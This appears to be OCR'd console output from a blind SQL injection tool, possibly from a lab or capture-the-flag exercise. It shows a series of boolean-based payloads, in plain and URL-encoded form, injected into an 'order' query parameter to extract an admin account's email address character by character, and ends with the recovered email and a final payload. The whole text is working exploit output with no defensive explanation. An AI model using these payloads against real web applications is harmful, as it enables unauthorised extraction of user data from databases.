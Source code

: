 ```
[+] Payload (URL encoded): ?order=if%28id%3D%27admin%27+AND+ord%28substr%28email%2C+21%2C+1%29%29%3D%2764%27%2C+1%2C+2%29
[+] Character at index 21: @

[+] Payload: ?order=if(id='admin' AND ord(substr(email, 22, 1))='101', 1, 2)
[+] Payload (URL encoded): ?order=if%28id%3D%27admin%27+AND+ord%28substr%28email%2C+22%2C+1%29%29%3D%27101%27%2C+1%2C+2%29
[+] Character at index 22: e

[+] Payload: ?order=if(id='admin' AND ord(substr(email, 23, 1))='109', 1, 2)
[+] Payload (URL encoded): ?order=if%28id%3D%27admin%27+AND+ord%28substr%28email%2C+23%2C+1%29%29%3D%27109%27%2C+1%2C+2%29
[+] Character at index 23: m

[+] Payload: ?order=if(id='admin' AND ord(substr(email, 24, 1))='97', 1, 2)
[+] Payload (URL encoded): ?order=if%28id%3D%27admin%27+AND+ord%28substr%28email%2C+24%2C+1%29%29%3D%2797%27%2C+1%2C+2%29
[+] Character at index 24: a

[+] Payload: ?order=if(id='admin' AND ord(substr(email, 25, 1))='105', 1, 2)
[+] Payload (URL encoded): ?order=if%28id%3D%27admin%27+AND+ord%28substr%28email%2C+25%2C+1%29%29%3D%27105%27%2C+1%2C+2%29
[+] Character at index 25: i

[+] Payload: ?order=if(id='admin' AND ord(substr(email, 26, 1))='49', 1, 2)
[+] Payload (URL encoded): ?order=if%28id%3D%27admin%27+AND+ord%28substr%28email%2C+26%2C+1%29%29%3D%2749%27%2C+1%2C+2%29
[+] Character at index 26: 1

[+] Payload: ?order=if(id='admin' AND ord(substr(email, 27, 1))='46', 1, 2)
[+] Payload (URL encoded): ?order=if%28id%3D%27admin%27+AND+ord%28substr%28email%2C+27%2C+1%29%29%3D%2746%27%2C+1%2C+2%29
[+] Character at index 27: .

[+] Payload: ?order=if(id='admin' AND ord(substr(email, 28, 1))='99', 1, 2)
[+] Payload (URL encoded): ?order=if%28id%3D%27admin%27+AND+ord%28substr%28email%2C+28%2C+1%29%29%3D%2799%27%2C+1%2C+2%29
[+] Character at index 28: c

[+] Payload: ?order=if(id='admin' AND ord(substr(email, 29, 1))='111', 1, 2)
[+] Payload (URL encoded): ?order=if%28id%3D%27admin%27+AND+ord%28substr%28email%2C+29%2C+1%29%29%3D%27111%27%2C+1%2C+2%29
[+] Character at index 29: o

[+] Payload: ?order=if(id='admin' AND ord(substr(email, 30, 1))='109', 1, 2)
[+] Payload (URL encoded): ?order=if%28id%3D%27admin%27+AND+ord%28substr%28email%2C+30%2C+1%29%29%3D%27109%27%2C+1%2C+2%29
[+] Character at index 30: m

[!] Extracted email: aasup3r_secure_email@emai1.com
[!] Final payload: ?email=aasup3r_secure_email@emai1.com
```
